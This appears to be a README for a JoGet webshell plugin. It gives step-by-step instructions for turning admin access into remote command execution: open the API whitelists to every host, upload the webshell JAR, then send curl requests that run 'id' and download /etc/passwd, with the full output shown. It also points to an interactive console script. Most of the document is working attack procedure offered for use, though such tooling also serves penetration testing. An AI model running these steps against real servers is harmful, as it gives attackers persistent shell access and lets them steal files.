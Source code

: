 # JoGet - Upload a plugin

## Requirements

 - A valid **username and password** of a user with **admin rights** on JoGet.

## Exploitation

### Step 1: Whitelist your IP in the API

First of all, you will need to whitelist your IP in the API (or put `*` to match every source IP). This will allow you to perform requests on the `/jw/web/json` endpoint.

 - **API Domain Whitelist**: `*`
 - **API IP Whitelist**: `*`

![](./imgs/ip_whitelist_api.png)

### Step 2: Upload the webshell plugin

Go to "Manage plugins" page, at http://127.0.0.1:8000/jw/web/console/setting/plugin, and click on "Upload plugin":

![](./imgs/manage_plugins_interface.png)

Then choose the JAR file of the webshell plugin and click on "Upload":

![](./imgs/upload_a_plugin.png)

### Step 3.1: Executing commands

You can now execute commands by sending a GET or POST request to http://127.0.0.1:8000/jw/web/json/plugin/podalirius.WebShell/service with `action=exec&cmd=id`:

```sh
$ curl -X POST 'http://127.0.0.1:8000/jw/web/json/plugin/podalirius.WebShell/service' --data "action=exec&cmd=id"
{"stdout":"uid=1000(tomcat) gid=1000(tomcat) groups=1000(tomcat),0(root),27(sudo)\n","stderr":"","exec":["/bin/bash","-c","id"]}
```

You can also access it by a GET request from a browser:

![](./imgs/exec_code_web.png)

### Step 3.2: Downloading files

You can also download remote files by sending a GET or POST request to http://127.0.0.1:8000/jw/web/json/plugin/podalirius.WebShell/service with `action=download&cmd=/etc/passwd`:

```sh
$ curl -X POST 'http://127.0.0.1:8000/jw/web/json/plugin/podalirius.WebShell/service' --data "action=download&path=/etc/passwd" -o-
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
tomcat:x:1000:1000::/home/tomcat:/bin/sh
```

### Step 4: The interactive console

When your webshell is active, you can now use the interactive [console.py](https://raw.githubusercontent.com/p0dalirius/JoGet-plugin-webshell/master/console.py) to execute commands and download remote files.

https://user-images.githubusercontent.com/79218792/158264654-df612180-9de5-4b5b-b3a2-ad22ae05b889.mp4

## References
 - https://github.com/p0dalirius/JoGet-plugin-webshell